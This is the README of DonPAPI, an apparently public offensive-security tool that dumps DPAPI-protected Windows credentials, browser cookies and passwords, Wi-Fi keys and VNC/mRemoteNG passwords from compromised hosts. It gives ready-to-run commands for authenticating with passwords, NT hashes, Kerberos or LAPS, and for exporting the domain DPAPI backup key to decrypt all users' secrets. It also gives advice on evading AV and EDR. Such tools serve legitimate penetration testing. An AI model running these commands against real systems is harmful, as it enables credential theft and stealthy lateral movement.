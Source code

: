 # DonPAPI
Dumping revelant information on compromised targets without AV detection
![alt text](https://github.com/login-securite/DonPAPI/blob/main/res/Logo%20DonPapi.png)


## DPAPI dumping
Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :
- User password
- Domaine DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Curently gathered info
- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wifi key
- Intenet explorer Credentials
- Chrome cookies & credentials & cookies
- Firefox cookies & credentials & cookies
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance
- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :
- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain cleartext login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract Masterkey's hash value for every user profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin's personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

## Examples

Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI.py domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI.py --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI.py -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI.py -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


## Opsec consideration
The RemoteOps part can be spoted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

## Installation 
```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python3 -m pip install -r requirements.txt
python3 DonPAPI.py
```

## Credits
All the credits goes to these great guys for doing the hard research & coding : 
- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shity code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo
- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```
